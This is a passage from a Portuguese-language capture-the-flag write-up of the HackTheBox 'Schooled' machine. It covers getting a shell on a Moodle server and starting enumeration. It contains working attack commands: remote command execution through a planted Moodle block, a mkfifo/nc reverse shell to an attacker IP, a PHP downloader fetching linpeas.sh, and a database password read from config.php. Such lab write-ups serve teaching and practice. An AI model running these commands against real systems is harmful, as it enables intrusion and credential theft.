 ```bash
$ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=id'
uid=80(www) gid=80(www) groups=80(www)

$ curl -X GET -G 'http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php' --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc "10.10.10.10" 4443 >/tmp/f'
```

## User Flag

Agora com um shell interativo com a conta `www-data`, iniciei a enumeração da máquina. Como de costume, iniciei com a execução do `linpeas.sh` mas descobri que `wget` e `curl` não estavam disponível, então escrevi um simples script php para baixar os arquivos dos quais precisava.

```bash
echo "<?php" > wget.php
echo "\$url = 'http://10.10.10.10/linpeas.sh';" >> wget.php
echo "\$file = '/tmp/linpeas.sh';" >> wget.php
echo "\$current = file_get_contents(\$url);" >> wget.php
echo "file_put_contents(\$file, \$current);" >> wget.php
echo "?>" >> wget.php

/usr/local/bin/php wget.php
```

A partir da execução, a seguintes informações foram obtidas:

* Usuários com console e suas permissões:

```plaintext
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
root:*:0:0:Charlie &:/root:/bin/csh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```

* Senha para o banco de dados do Moodle no arquivo `/usr/local/www/apache24/data/moodle/config.php` :

```plaintext
$CFG->dbtype    = 'mysqli';
$CFG->dbhost    = 'localhost';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
'dbport' => 3306,
```

Logo após executar a enumeração, descobri que apenas nos faltava alguns caminhos no PATH, encontrando o binário do `curl`. Este ajuste no PATH também foi necessário para executar o comando `mysql`, necessário para que pudesse realizar o dump das informações necessárias a partir do banco de dados. Esta atividade foi feita de forma não interativa, já que não consegui promover meu shell para um TTY.

```bash
$ find / -type f 2>/dev/null | grep -e "wget$" -e "curl$" -e "mysql$"
/usr/local/bin/curl
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/wget
/usr/local/share/bash-completion/completions/curl
/usr/local/share/bash-completion/completions/mysql
/usr/local/share/zsh/site-functions/_curl
/var/mail/mysql
```
